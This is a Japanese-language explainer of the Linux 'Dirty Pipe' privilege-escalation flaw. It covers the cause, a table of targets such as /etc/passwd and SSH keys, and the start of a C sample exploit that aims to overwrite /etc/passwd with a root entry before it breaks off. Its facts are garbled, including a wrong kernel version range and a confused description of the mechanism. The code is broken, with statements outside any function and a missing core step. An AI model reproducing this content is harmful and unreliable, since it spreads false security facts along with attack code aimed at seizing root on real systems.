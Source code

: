 ```
- **対象**：Linux kernel 5.15 以降（5.15.0 から 5.15.40 まで）に存在
- **根本原因**：`pipe()` で作成された仮想ファイル（/proc/PID/fd）の **read‑only** ファイルに対して、悪意ある書き込みが可能になる **レースコンディション**
- **結果**：権限や所有権の制御をバイパスし、root 権限を取得できる可能性がある。

### 2. どうやって悪用するか？

Dirty Pipe は、UNIX パイプに対する「`O_RDONLY`」で open したファイルに対し、`write()` を使って書き込みを成功させることができます。
具体的には `pipe2(…, O_RDONLY)` でパイプを作成し、`pipe_buf` の `f2d` の `addr`（データ領域）を改変することで、`read()` で取得する内容を不正に書き換えられます。これにより、**誰でもファイルへの書き込み**が可能になります。

#### 重要ポイント
| 要素 | 内容 |
|------|------|
| **対象 OS** | Linux kernel 5.15〜5.15.40 |
| **ファイル** | すべての読み取り専用ファイル（ex: `/etc/passwd`、`/root/.ssh/id_rsa`）に対して書き込み可能 |
| **権限** | 攻撃者は **root 権限の取得** または **セキュリティ情報の改ざん** が可能 |

---

## 3. 具体的な悪用例 (サンプルコード)

以下は、Dirty Pipe を利用して読み取り専用のシステムファイル `/etc/passwd` を書き換える簡易例です。
**実装には十分に注意してください！**（実際の環境で動かすには自己責任で行ってください）

\`\`\`c
/* dirty_pipe_demo.c
 *
 * 例：root 権限が必要なファイルを「書き込む」
 *
 *   gcc -static -O2 -Wall -o dirty_pipe_demo dirty_pipe_demo.c
 *   sudo ./dirty_pipe_demo
 *
 * ただし、Linux カーネル 5.15.40 以前でのみ動作することに注意。
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>

/* 1. 読み取り専用ファイルを開く */
int fd = open("/etc/passwd", O_RDONLY);
if (fd < 0) {
    perror("open");
    exit(1);
}

/* 2. pipe を作成 */
int pipefd[2];
if (pipe(pipefd) < 0) {
    perror("pipe");
    exit(1);
}

/* 3. pipe にデータを書き込み（脆弱性を呼び出す） */
char *payload = "root:x:0:0:root:/root:/bin/bash\n";
size_t len = strlen(payload);
```